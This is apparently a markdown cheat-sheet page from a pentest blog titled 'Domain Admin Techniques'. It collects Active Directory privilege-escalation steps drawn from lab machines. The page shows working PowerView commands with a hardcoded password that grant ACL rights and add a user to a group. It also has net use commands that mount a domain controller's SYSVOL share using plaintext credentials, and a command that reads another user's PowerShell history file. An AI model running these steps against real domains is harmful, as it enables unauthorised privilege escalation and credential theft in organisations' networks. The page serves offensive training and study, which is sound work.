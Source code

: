 ```yaml
---
description: >-
  Active Directory Privilege Escalation Techniques (Domain Admin)
title: Domain Admin Techniques              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Privilege Escalation]                     # Change Templates to Writeup
tags: [active directory, windows privesc, readlaps, sysvol share, powershell history]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

This is a collection of techniques to get Domain Admin via multiple techniques.
### Assign user to a group
```powershell
Import-Module ./PowerView.ps1
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\\JDgodd"
Add-DomainGroupMember -Identity 'Core Staff' -Members 'streamio\\JDgodd' -Credential $Cred
net group 'Core Staff'
```
Examples:
[[StreamIO#dc6ecc]]

### SYSVOL Share DC

We can enumerate SMB Shares within the machine: ^cae2ef
```bash
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC 
```
We can try to connect to the shares on the DC:
```bash
PS C:\Users\BTables\Desktop> net use \\dc.fulcrum.local\IPC$ /user:FULCRUM\BTables ++FileServerLogon12345++
The command completed successfully.
```
And then we can list the shares in the DC:
```bash
PS C:\Users\BTables\Desktop> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\
Share name  Type  Used as  Comment              
-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.
```
We can then mount the share SYSVOL on the compromised machine to check its content:
```bash
PS C:\Users\BTables\Desktop> net use x: \\dc.fulcrum.local\SYSVOL /user:FULCRUM\BTables ++FileServerLogon12345++

The command completed successfully.
```
And we found a ton of scripts inside the Share:
```bash
PS X:\fulcrum.local\scripts> dir
    Directory: X:\fulcrum.local\scripts

Mode                LastWriteTime         Length Name
----                -------------         ----- -----                                                                                                                      
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
```

### Powershell History

We can retrieve commands executed on another machine by checking the ConsoleHost_history.txt which is the same as in Linux .bash_history file.
#Note If using this command we need to be on the User's folder since this file is located in the AppData folder:
```bash
PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Examples:
[Timelapse](https://shuciran.github.io/posts/Timelapse/#fnref:powershell-history)